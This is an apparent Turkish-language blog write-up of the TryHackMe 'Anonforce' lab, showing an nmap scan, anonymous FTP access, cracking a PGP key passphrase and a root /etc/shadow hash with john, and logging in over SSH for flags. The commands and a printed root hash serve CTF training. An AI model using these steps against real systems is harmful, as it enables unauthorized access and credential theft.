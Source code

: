 ```yaml
---
title: 'TryHackMe | Anonforce WriteUp'
author: appdone
categories: [TryHackMe Challenges]
render_with_liquid: false
---
```


Bu yazımda TryHackMe platformunda bulunan “Anonforce” isimli makineyi çözeceğiz. Yeni başlayanlar için oldukça iyi bir makine olduğunu düşünüyorum. Öncelikle hedef hakkında biraz bilgi edinmek için nmap ile bir tcp port taraması yapacağız.

```console
$ nmap -sV -sC -T4 10.10.186.30
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
| drwxr-xr-x   17 0        0            3700 Mar 17 13:20 dev
| drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
| drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
| ...
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
|   256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_  256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Tarama sonucunda 21 ve 22 numaralı portların açık olduğunu öğrendik. 21 numaralı portun üzerinde FTP servisi çalışıyor. Bu servisin yanlış yapılandırılmasından dolayı tüm dosya ve dizinleri anonim kullanıcı olarak görüntüleyebiliyoruz.

Öncelikle ftp servisine anonim kullanıcı olarak bağlanalım. Daha sonrada nmap taramasında gördüğümüz notread isimli dizini kontrol edelim.

```console
ftp> ls -la
...
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
...
```

Gördüğünüz üzere bu dizin içerisinde backup.pgp ve private.asc olmak üzere iki dosya bulunuyor. Bu dosyaları indirdikten sonra john aracılığıyla kıracağız. Tabi önce .asc dosyasını john’un anlayabileceği bir kıvama getirmemiz gerekiyor.

```console
$ gpg2john private.asc > hash
$ john hash -w=Desktop/rockyou.txt 
...
x***360          (anonforce)     
...
```

Parolayı elde ettikten sonra private.asc dosyasını parola eşliğinde içe aktarıyoruz.

```console
$ gpg --import private.asc 
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: key B92CD1F280AD82C2: secret key imported
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1
```

private.asc dosyasını içe aktardıktan sonra backup.pgp dosyasının şifresini çözebilir ve içerisindeki dosyayı görüntüleyebiliriz. backup.pgp dosyası içerisinde /etc/shadow dosyası bulunuyormuş.

```console
$ gpg --decrypt backup.pgp                                                                                                                                                                
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences                                                                                                                       
gpg: encrypted with 512-bit ELG key, ID AA6268D1E6612967, created 2019-08-12                                                                                                                  
      "anonforce <melodias@anonforce.nsa>"
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
...
```

Dosya içerisindeki root kullanıcısının hash’ini alıp john ile kırdıktan sonra en yetkili hesaba sahip olduk.

```console
$ john hash2 -w=Desktop/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
******           (?)     
...
```

Geriye sadece bayrakları toplamak kalıyor. SSH servisine bağlandıktan sonra ilk bayrağı /home/meliodas diğerini ise /root dizininde buluyoruz.
